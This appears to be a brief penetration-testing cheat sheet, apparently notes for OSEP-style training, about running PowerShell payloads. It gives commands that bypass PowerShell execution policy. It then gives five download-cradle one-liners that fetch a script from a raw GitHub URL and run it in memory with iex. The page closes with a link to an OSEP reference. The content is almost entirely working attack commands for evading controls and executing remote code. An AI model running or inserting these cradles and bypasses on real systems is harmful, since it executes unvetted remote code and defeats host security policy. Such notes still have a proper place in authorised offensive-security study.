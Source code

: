 # Bypass EP
Start PowerShell from cmd.exe:
powershell.exe -ep bypass

OR If already running-

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted
$Env:PSExecutionPolicyPreference = 'Bypass'


# Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")

IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content

iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
